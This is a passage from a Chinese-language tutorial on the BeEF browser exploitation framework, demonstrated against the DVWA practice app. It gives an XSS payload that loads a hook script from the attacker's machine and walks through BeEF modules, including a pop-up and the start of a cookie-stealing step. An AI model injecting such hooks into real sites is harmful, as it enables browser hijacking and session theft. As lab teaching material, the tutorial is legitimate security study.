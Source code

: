 这时候啥都干不了，是因为你有一步很重要的操作没做。这里需要把图中红框中的payload复制粘贴到你的目标xss的位置，然后将其中的`<IP>`改成你这台kali的IP地址，最终payload为：`<script src="http://X.X.X.X:3000/hook.js"></script>`

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212506-ffdb69d0-9936-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212506-ffdb69d0-9936-1.jpg)

这里我用dvwa来模拟场景。将payload插入其中，点击submit

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212527-0c4d69ac-9937-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212527-0c4d69ac-9937-1.jpg)

这时候再回到BeEF中查看，会发现online browers中多了点东西，这时候就可以开始操作了

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212553-1b9eee44-9937-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212553-1b9eee44-9937-1.jpg)

我这里介绍下这个主页面：

其中最左边的是`Hooked Browers`

- online browers：在线浏览器
- offline browers：离线浏览器

`Current Browser`中的这几栏分别有：

```
Detials
```

- 浏览器、插件版本信息，操作系统信息

```
Logs
```

- 浏览器动作：焦点变化，鼠标单击，信息输入

```
commands
```

- 绿色模块：表示模块适用当前用户，并且执行结果对用户不可见
- 红色模块：表示模块不适用当前用户，有些红色模块也可以执行
- 橙色模块：模块可用，但结果对用户可见
- 灰色模块：模块为在目标浏览器上测试过

介绍完之后，再回到刚才的场景。这里在BeEF中的`Current Browser`中点击其中的`Commnads`，其中就可以选择许多模块来对目标进行攻击

这里举波例子：

选择 `Brower`下面的`Hooked Domain`中的`Create Alert Dialog`（创造一个弹窗 ），点击右下角的`Execute`运行。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212613-28091fce-9937-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212613-28091fce-9937-1.jpg)

然后看看dvwa的状态，成功弹窗

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212627-30184244-9937-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212627-30184244-9937-1.jpg)

这里再举个获取cookie的例子：

选择 `Brower`下面的`Hooked Domain`中的`Get Cookie`，点击右下角的`Execute`运行。
